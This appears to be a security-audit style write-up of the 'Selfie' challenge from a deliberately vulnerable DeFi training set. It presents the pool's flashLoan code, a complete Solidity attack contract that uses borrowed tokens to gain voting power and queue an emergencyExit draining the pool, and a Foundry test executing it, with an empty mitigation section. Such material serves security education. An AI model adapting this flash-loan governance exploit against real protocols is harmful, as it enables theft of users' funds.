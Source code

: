 ## Critical Severity Issues

### [C-1] `SelfiePool` Flash Loan Lead to Governance Attack

**Description:** The `SelfiePool` protocol allows users to take flash loan as much as they can.But the attacker use that flash loan attain the governance power and queue the propsal of `emergencyExit` function call via signature.After two days of interval attacker execute his attack and darin the entire protocol funds.

```javascript
function flashLoan(IERC3156FlashBorrower _receiver, address _token, uint256 _amount, bytes calldata _data) external nonReentrant returns (bool) {
        if (_token != address(token)) {
            revert UnsupportedCurrency();
        }
        token.transfer(address(_receiver), _amount);

        if (
            _receiver.onFlashLoan(msg.sender, _token, _amount, 0, _data) !=
            CALLBACK_SUCCESS
        ) {
            revert CallbackFailed();
        }

        if (!token.transferFrom(address(_receiver), address(this), _amount)) {
            revert RepayFailed();
        }

        return true;
    }
```

**Impact:** An attacker leverage the governance power, queue and execute pool tokens withdrwal for his self.

Attack Contract:

```javascript
contract Attack is IERC3156FlashBorrower {
    SimpleGovernance simpleGovernance;
    DamnValuableVotes dvt;
    SelfiePool pool;

    uint256 public actionId;

    constructor( SimpleGovernance _simpleGovernance, DamnValuableVotes _token, SelfiePool _pool) {
        simpleGovernance = _simpleGovernance;
        dvt = _token;
        pool = _pool;
    }

    function onFlashLoan( address initiator, address token, uint256 amount, uint256 fee, bytes calldata data
    ) external returns (bytes32) {
        // get voting power
        dvt.delegate(address(this));

        actionId = simpleGovernance.queueAction(
            address(pool),
            0,
            abi.encodeWithSignature("emergencyExit(address)", address(this))
        );

        dvt.approve(address(pool), amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function execute() external {
        simpleGovernance.executeAction(actionId);
    }

    fallback() external payable {}
}

```

**Proof of Concept:**

1. Attacker call take flashloan
2. leaverage that flash loan and get voting power.
3. execute the propsal of EmergencyExit.
4. After two days darin the entire protocol tokens.

**Proof of Code:**

```javascript
function testAttack() public {
        // Activate voting power
        vm.startPrank(address(target));
        pool.flashLoan(
            IERC3156FlashBorrower(target),
            address(dvtVotes),
            dvtVotes.balanceOf(address(pool)),
            ""
        );

        vm.warp(block.timestamp + 2 days);
        target.execute();
        vm.stopPrank();
    }
```

**Recommended Mitigation:**
